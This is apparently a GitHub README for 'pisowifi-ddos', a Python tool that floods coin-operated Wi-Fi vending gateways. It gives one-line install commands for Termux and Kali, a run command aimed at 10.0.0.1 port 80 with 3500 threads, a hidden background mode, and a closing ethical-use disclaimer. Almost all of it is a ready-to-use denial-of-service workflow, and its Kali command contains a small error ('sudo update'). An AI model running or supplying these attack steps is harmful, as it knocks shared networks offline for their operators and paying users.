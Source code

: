 # Pisowifi DDOS

<div align="center">
<img src="https://github.com/xiv3r/pisowifi-ddos/blob/main/image/proof.png">
</div>

# Requirements
- [Termux](https://github.com/termux/termux-app/releases)

# Manual Install
<details><summary> Expand
</summary>
  
```
pkg update && pkg upgrade -y
```
```
pkg install git python -y
```
```
git clone https://github.com/xiv3r/pisowifi-ddos.git
```
```
cd pisowifi-ddos
```
```
chmod 755 ddos.py
```
```
python ddos.py
```
</details>

# Auto Install
Termux
```
pkg update && pkg upgrade -y && pkg install git python -y && git clone https://github.com/xiv3r/pisowifi-ddos.git && chmod 755 pisowifi-ddos/ddos.py && cd pisowifi-ddos && ls
```

<details><summary> Kali
</summary>
  
```
sudo update && sudo apt upgrade -y && sudo apt install git python3 -y && git clone https://github.com/xiv3r/pisowifi-ddos.git && chmod 755 pisowifi-ddos/ddos.py && cd pisowifi-ddos && ls
```
</details>

# Run
```
cd pisowifi-ddos
```
```
python ddos.py -s 10.0.0.1 -p 80 -t 3500
```

<details><summary> Background mode
</summary>

```
python ddos.py -s 10.0.0.1 -p 80 -t 3500 > /dev/null 2>&1 &
```
</details>

<details><summary> kill the process
</summary>
  
```
pkill -f python
```
</details>

# Screenshot

<div align="center">
<img src="https://github.com/xiv3r/pisowifi-ddos/blob/main/image/ddos.png">
</div>

## ⚠️ Disclaimers
`"This tool is intended solely for ethical cybersecurity purposes, such as penetration testing, vulnerability assessments, and authorized research. Unauthorized use to disrupt networks, services, or systems is illegal and violates cybersecurity laws. Misuse may result in severe legal penalties, including fines and imprisonment. Always obtain explicit permission before testing any system. By using this tool, you agree to comply with all applicable laws and assume full responsibility for your actions."`
